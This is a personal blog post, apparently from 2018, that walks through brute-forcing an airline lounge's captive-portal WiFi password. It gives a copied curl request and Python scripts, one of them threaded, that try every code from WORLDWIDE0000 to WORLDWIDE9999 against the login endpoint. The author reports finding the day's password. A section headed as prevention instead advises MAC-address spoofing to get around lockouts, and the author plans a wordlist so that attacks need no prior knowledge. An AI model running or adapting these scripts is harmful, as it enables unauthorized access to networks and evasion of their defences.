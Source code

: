 ```yaml
---
title: "Bruteforcing an airline lounge's WiFi password"
date: 2018-10-09 16:21:49
image: "/images/airline-pass.png"
---
```


I'm a frequent traveler and stay in lounges fairly often (shoutout [/r/churning](https://reddit.com/r/churning)!). Most lounges don't use traditional [WiFi Authentication](https://tools.ietf.org/html/rfc4764) - instead they rely on some form of captive gate. This allows them to provide user content, collect a more information on the users of the service, and rotate the password easily.

This is how one could *theoretically* brute force an easily enumerable captive portal password. This is a genericized article that does **not name any airline in particular**.

Let's suppose I had been traveling
Most lounges follow a very similar password schema on a day to day basis. A common one is of the format `WORLDWIDE####`, with a random last 4 digits. This only creates 10,000 unique possible passwords, which is a fairly small search space. Although I had the password in front of me but I wanted to see if I could figure it out using other means.

## Intercepting Network Requests

Chrome trivializes intercepting network requests. Normally I'd man-in-the-middle myself using Burp Suite or Charle's Proxy, but since this was just a site we can use the built in devtools network tab.

Once submitting a random password the route shows up in devtools.

<img src="/images/airline-network.png"/>
<p class="footnote">The airline's password attempt route</p>

It looks like it'll return a `302` status if the password is incorrect and (I assumed) a `2XX` when it's correct. Devtools has a handy "Copy as Curl" function that allows you to copy any network request as a curl request just by right-clicking on it.

<img src="/images/copyascurl.png"/>
<p class="footnote">Devtools Copy as Curl functionality</p>

```bash
curl 'https://anairline.com/auth/index.html/u' \
-H 'Connection: keep-alive' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36' \
-H 'Sec-Metadata: cause="user-activated", destination="document", site="same-origin"' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Referer: https://anairline.com/login.html?errmsg=Authentication%20failed' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' \
-H 'Cookie: newHP=true; Locale=POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L; SearchInput={"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false};  D3Name=; D3Locator=; CPsession=http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169' \
--data 'user=GLOBAL1111&password=NULL&cmd=authenticate&Login=Sign+in' \
--compressed -v
```
<p class="footnote">Note: Session and User IDs removed</p>

Now that I had the curl request I could play around with the state and paremeters. It looks like the form is actually encoding the password as the username and the password as NULL.

As a sidenote, this **probably** means that any built in password bruteforcing checks with the library they're using *won't* work because we aren't trying the same username with a different password over and over again - we are just iterating over different usernames with the same password. I can't be sure of this but it

Shell scripting is fine in a pinch but I wanted something more robust. There's a neat utility that'll convert a curl request to Python/Node/PHP [here](https://curl.trillworks.com). Now that I had python code that had valid state I could quickly iterate over all combinations.

```python
import requests

cookies = {
    'newHP': 'true',
    'Locale': 'POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L',
    'SearchInput': '{"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false}',
    'D3Name': '',
    'D3Locator': '',
    'CPsession': 'http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36',
    'Sec-Metadata': 'cause="user-activated", destination="document", site="same-origin"',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': 'https://anairline.com/login.html?errmsg=Authentication%20failed',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9,it;q=0.8',
}

data = {
  'user': 'GLOBAL1111',
  'password': 'NULL',
  'cmd': 'authenticate',
  'Login': 'Sign in'
}

response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)

```

## Bruteforcing the login

Running the python above returns the exact same as the network request - a `302` redirect, indicating the passphrase was not correct.

I could write a quick wrapper to the request such that it would try all combinations 0000 to 9999.

```python
for i in range(10000):
    attempt = "%04d" % i # h/t /u/paulschreiber
    data = {
      'user': 'WORLDWIDE' + attempt,
      'password': 'NULL',
      'cmd': 'authenticate',
      'Login': 'Sign in'
    }
    response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
    if response.status_code != 302:
        print('Valid passphrase found: WORLDWIDE%s' % attempt)
```

Unfortunately this was pretty slow - it would serialize the attempts, which would not allow an attempt to be made until the previous network request had returned. A little threading magic (and ratelimiting) and we'd be on our way.

```python
import threading
import time

def brute_force_pass(attempt):
    data = {
      'user': 'WORLDWIDE' + attempt,
      'password': 'NULL',
      'cmd': 'authenticate',
      'Login': 'Sign in'
    }
    response = requests.post('https://anairline.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
    if response.status_code != 302:
        print('Valid passphrase found: WORLDWIDE%s' % attempt)

for i in range(10000):
    attempt = "%04d" % i # h/t /u/paulschreiber
    threading.Thread(target=brute_force_pass, args=[attempt]).start()
    time.sleep(0.05) # sleep for 1/20th of a second so we don't start timing out or running out of sockets
```

Fortunately the captive portal is running locally so the RTT is pretty low, which means that the server replies fairly quickly. At `0.05` seconds (plus overhead) per request we should be able to try the entire search space in just over 8 minutes.

I left to go grab a rum and coke and by the time I came back it had finished.

<img src="/images/airline-pass.png"/>
<p class="footnote">The daily password for that airline password</p>

And there you have it! Today's WiFi password is `WORLDWIDE9980`.

The best part about it was that the valid attempt automatically whitelisted that mac address - I didn't even need to type the password in myself.

## Preventing brute force attacks

I was worried I'd run into ratelimiting or start getting `429`'s from the airline. Fortunately that never happend, but I've run into similar services that will lock you out. A good way around this is to spoof your mac address - at that point, there is no way for a router to recognize that it's your device that has made all these attempts, and will allow you to keep doing so uninhibited.

As an aside spoofing your mac address on the 2018 MacBook Pro's seems to not work any more, so if anyone knows how to do it I'd be very grateful (`sudo ifconfig en0 ether aa:bb:cc:dd:ee:ff` no longer works).

## Conclusions

This also would've been possible to do with BurpSuite and setting up Intruder, but I didn't really want to go to that effort. This was a quick exercise in seeing how easy this would be if I was standing *outside* the lounge, without access to the password. Any online service that uses a captive portal is susceptible to this attack. One of these days I'm planning on building an airport-centric wordlist (i.e. Lounge, WiFi, &lt;airport name&gt;, &lt;airline name&gt;, current year, etc.) so that bruteforcing *without* any preexisting knowledge also becomes feasible.

Overall fairly successful for 10 minutes of work!

Comments can be found on reddit, [here]()
